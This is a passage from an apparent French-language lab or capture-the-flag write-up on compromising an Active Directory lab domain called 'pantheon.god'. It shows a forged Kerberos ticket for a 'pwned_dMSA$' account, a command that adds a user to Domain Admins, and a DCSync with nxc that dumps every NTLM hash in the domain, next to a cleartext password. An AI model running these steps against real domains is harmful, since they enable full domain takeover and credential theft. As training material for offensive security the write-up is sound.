niQILPjwVDOP8j1RK4SUFojdTXsJLeNmF1gKRE7dcWqeZre2HNt0gLnz/U/2tDwV+duoBMSre33+3ZHJkoLKUfYciR9d5PzQvl2AZuKMayp345j87rQCns9KCR7rvb5kesZZ/IpzmAkIWd5npBN3lK+o0NR3t4jrkqixQR2vQifqox6i+qf4mCiBTvPOx1/WiQsIL/Ch7uox0LuBwNEK4iR8Ahx0NadA/MSGv8WlbmZc+TASIF0Oa/BOR4BXx0asQUIyCxp2wG8SiGi97lmC+c/kiDFDpXe82EiXDinitWcgHal0Bcx6WwnSCqvl5rL5Gb+zNhZ/Pymzvq3mOPmy1udd+Pd4CQkCAEV2gzRaEnmgeuL7EtHOghaMp2Z70tdFUzm4Gb3qjBaHzZvjQH56J3l0t5ck/KfTrn8BpZplXevVSq7wCx/c/TSJmjMlUCVUXBPG071hMLIh20DGGPUBCwI6219x8GltUp+yikmBj3SopfooPntUg6HtKQWp8o5KrZNwjwKgoBfO5l39i16CpOa68jnoCgNd8lgTAT20v1eo2nOsbEBbIb2YhzDcp6nl4+n1wftRp97EbOHF5pKJUG93tPHBpXNiLq+w8lL3xk47Y7i6LqLSjYVBRjoVY6g/UHGny9MAQFhjPwOprgM1HnTZW0L56Px29BWnaOCQiYp3YXeUA6lduhUwJ3nQme6W5MoW+NgFMBW3bHNNq8jCvNjtus0irt6WnQplYCm6ljXRV+un/nyAZdJkV/kA5NZN0coJnBnFwYrIzWjgekwgeagAwIBAKKB3gSB232B2DCB1aCB0jCBzzCBzKArMCmgAwIBEqEiBCCXPpomIhE67zr2al+TvlYzJe4D/2PLMkFuTsz1X8//Q6EOGwxwYW50aGVvbi5nb2SiGDAWoAMCAQGhDzANGwtwd25lZF9kTVNBJKMHAwUAYKEAAKURGA8yMDI1MDYyMTE5NTcxOFqmERgPMjAyNTA2MjEyMDEyMThapxEYDzIwMjUwNjI4MTkzOTAxWqgOGwxQQU5USEVPTi5HT0SpITAfoAMCAQKhGDAWGwZrcmJ0Z3QbDFBBTlRIRU9OLkdPRA==

  ServiceName              :  krbtgt/PANTHEON.GOD
  ServiceRealm             :  PANTHEON.GOD
  UserName                 :  pwned_dMSA$ (NT_PRINCIPAL)
  UserRealm                :  pantheon.god
  StartTime                :  6/21/2025 7:57:18 PM
  EndTime                  :  6/21/2025 8:12:18 PM
  RenewTill                :  6/28/2025 7:39:01 PM
  Flags                    :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  lz6aJiIROu869mpfk75WMyXuA/9jyzJBbk7M9V/P/0M=
  Current Keys for pwned_dMSA$: (aes256_cts_hmac_sha1) 96382D52C19DC606FF501EAD0FDB514EA2AD7C3AAF82FBC9EB584FE244A34753

PS C:\Users\hades\Desktop>
```

```
PS C:\Users\hades\Desktop> net group "domain admins" /add orphee /domain
The request will be processed at a domain controller for domain pantheon.god.

The command completed successfully.

PS C:\Users\hades\Desktop>
```

On as pus ce rajouter en tant d’aministrateur du domain. 

Cela nous permet de faire un `DCsync` pour récupérer tout les hash du domain

```bash
nxc smb "192.168.56.11" -u "$USER" -p "$PASSWORD" --ntds
[!] Dumping the ntds can crash the DC on Windows Server 2019. Use the option --user <user> to dump a specific user safely or the module -M ntdsutil [Y/n]
SMB         192.168.56.11   445    PANTHEON-DC01    [*] Windows 11 / Server 2025 Build 26100 x64 (name:PANTHEON-DC01) (domain:pantheon.god) (signing:True) (SMBv1:False)
SMB         192.168.56.11   445    PANTHEON-DC01    [+] pantheon.god\orphee:Mus1cM@st3r!2025 (admin)
SMB         192.168.56.11   445    PANTHEON-DC01    [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         192.168.56.11   445    PANTHEON-DC01    Administrator:500:aad3b435b51404eeaad3b435b51404ee:aff6a388446bba49babad7aaf35aae83:::
SMB         192.168.56.11   445    PANTHEON-DC01    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         192.168.56.11   445    PANTHEON-DC01    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d6f782d1249a05a188a3fd2336004c1c:::
SMB         192.168.56.11   445    PANTHEON-DC01    vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
SMB         192.168.56.11   445    PANTHEON-DC01    zeus:1112:aad3b435b51404eeaad3b435b51404ee:5b68357e3a16721b6523dff3234652ae:::
SMB         192.168.56.11   445    PANTHEON-DC01    hera:1113:aad3b435b51404eeaad3b435b51404ee:d1eb28b8b4081c051bcf65050fe65ca0:::
SMB         192.168.56.11   445    PANTHEON-DC01    poseidon:1114:aad3b435b51404eeaad3b435b51404ee:d1c741139ff861b32a322a0352ae265d:::
SMB         192.168.56.11   445    PANTHEON-DC01    demeter:1115:aad3b435b51404eeaad3b435b51404ee:a8300dbc2a0f174b64951c9da08e4d0b:::
SMB         192.168.56.11   445    PANTHEON-DC01    athena:1116:aad3b435b51404eeaad3b435b51404ee:416d0ff6775086300c6221ae7efbc402:::
SMB         192.168.56.11   445    PANTHEON-DC01    apollo:1117:aad3b435b51404eeaad3b435b51404ee:5746e19586565c6742ed10f8d469b639:::
SMB         192.168.56.11   445    PANTHEON-DC01    artemis:1118:aad3b435b51404eeaad3b435b51404ee:c7b57775c739c2fa8d5e24032a2f0fbe:::
SMB         192.168.56.11   445    PANTHEON-DC01    ares:1119:aad3b435b51404eeaad3b435b51404ee:551fc4fb35460741f949253495ac1698:::
SMB         192.168.56.11   445    PANTHEON-DC01    aphrodite:1120:aad3b435b51404eeaad3b435b51404ee:17f0fd7ea28eb4be24153ff2ec3e6119:::
SMB         192.168.56.11   445    PANTHEON-DC01    hephaistos:1121:aad3b435b51404eeaad3b435b51404ee:bc93607a09d45adb70ce0f02869021d6:::
SMB         192.168.56.11   445    PANTHEON-DC01    hermes:1122:aad3b435b51404eeaad3b435b51404ee:1a7639670465f9deaa2b4534f1867a32:::
SMB         192.168.56.11   445    PANTHEON-DC01    dionysos:1123:aad3b435b51404eeaad3b435b51404ee:bb11bc506d66de79df5fbcbd7ede151c:::
SMB         192.168.56.11   445    PANTHEON-DC01    achille:1124:aad3b435b51404eeaad3b435b51404ee:95718c56984fbe7f6ae1958433b16880:::
SMB         192.168.56.11   445    PANTHEON-DC01    theseus:1125:aad3b435b51404eeaad3b435b51404ee:06cf37a4cd7e41d838b37092cf0d9cf9:::
SMB         192.168.56.11   445    PANTHEON-DC01    perseus:1126:aad3b435b51404eeaad3b435b51404ee:48505186cb6ffaad4f14c52509b8438e:::
SMB         192.168.56.11   445    PANTHEON-DC01    ulysse:1127:aad3b435b51404eeaad3b435b51404ee:36a6da7303d1a46aab641d44ba6990af:::
SMB         192.168.56.11   445    PANTHEON-DC01    jason:1128:aad3b435b51404eeaad3b435b51404ee:b40f85d1bd20d52e721d9731753e5892:::
SMB         192.168.56.11   445    PANTHEON-DC01    orphee:1129:aad3b435b51404eeaad3b435b51404ee:e5434e98bb7d29c8b4392bcca15d860a:::
SMB         192.168.56.11   445    PANTHEON-DC01    asclepios:1130:aad3b435b51404eeaad3b435b51404ee:e1ef927a14e399b67f532b5f492570a4:::
SMB         192.168.56.11   445    PANTHEON-DC01    psyche:1131:aad3b435b51404eeaad3b435b51404ee:499dcff82f6d25be7b267a94c2cdb62e:::
SMB         192.168.56.11   445    PANTHEON-DC01    ganymede:1132:aad3b435b51404eeaad3b435b51404ee:32e822f8b80fca89e0f70dfb9a6ffb47:::
SMB         192.168.56.11   445    PANTHEON-DC01    hades:1133:aad3b435b51404eeaad3b435b51404ee:ead49bdbe3311143eeafbcb14d8ae126:::
SMB         192.168.56.11   445    PANTHEON-DC01    cronos:1134:aad3b435b51404eeaad3b435b51404ee:9c0a518fd5a9ae01c9282203980ad85b:::
SMB         192.168.56.11   445    PANTHEON-DC01    iapetos:1135:aad3b435b51404eeaad3b435b51404ee:7b247761b5db99db000a9e077e0155f2:::
SMB         192.168.56.11   445    PANTHEON-DC01    coeus:1136:aad3b435b51404eeaad3b435b51404ee:ee853d94f3c5ddfc40f764426b758284:::
SMB         192.168.56.11   445    PANTHEON-DC01    hyperion:1137:aad3b435b51404eeaad3b435b51404ee:5c41d7ea5b8215a005052c21b233edf0:::
SMB         192.168.56.11   445    PANTHEON-DC01    krios:1138:aad3b435b51404eeaad3b435b51404ee:f1de6b7dcf24a30198b8aa823ab7e2b0:::
SMB         192.168.56.11   445    PANTHEON-DC01    smbscores:1139:aad3b435b51404eeaad3b435b51404ee:54e48c5f048847ce13fa805e1459b63e:::
SMB         192.168.56.11   445    PANTHEON-DC01    hercule:1140:aad3b435b51404eeaad3b435b51404ee:0906d53ebe3acdd2a545355ced7053f8:::
SMB         192.168.56.11   445    PANTHEON-DC01    PANTHEON-DC01$:1001:aad3b435b51404eeaad3b435b51404ee:044d32223bdc78362acd13fc27ea5dad:::
SMB         192.168.56.11   445    PANTHEON-DC01    PANTHEON-ENFERS$:1104:aad3b435b51404eeaad3b435b51404ee:c26c2e72ed7035dcde9b910b4e0cf411:::
SMB         192.168.56.11   445    PANTHEON-DC01    svc_thunderB$:1111:aad3b435b51404eeaad3b435b51404ee:dd0f819d9e5971f7b0927b33a6c7dfd7:::
SMB         192.168.56.11   445    PANTHEON-DC01    pwned_dMSA$:1141:aad3b435b51404eeaad3b435b51404ee:bda205d296baf2743022fd78bb41b82a:::
SMB         192.168.56.11   445    PANTHEON-DC01    [+] Dumped 37 NTDS hashes to /root/.nxc/logs/ntds/PANTHEON-DC01_192.168.56.11_2025-06-26_071036.ntds of which 33 were added to the database
SMB         192.168.56.11   445    PANTHEON-DC01    [*] To extract only enabled accounts from the output file, run the following command:
SMB         192.168.56.11   445    PANTHEON-DC01    [*] cat /root/.nxc/logs/ntds/PANTHEON-DC01_192.168.56.11_2025-06-26_071036.ntds | grep -iv disabled | cut -d ':' -f1
SMB         192.168.56.11   445    PANTHEON-DC01    [*] grep -iv disabled /root/.nxc/logs/ntds/PANTHEON-DC01_192.168.56.11_2025-06-26_071036.ntds | cut -d ':' -f1
[orphee@pantheon.god][Jun 26, 2025 - 07:10:37 (CEST)] exegol-pantheon_wu exploit #
```

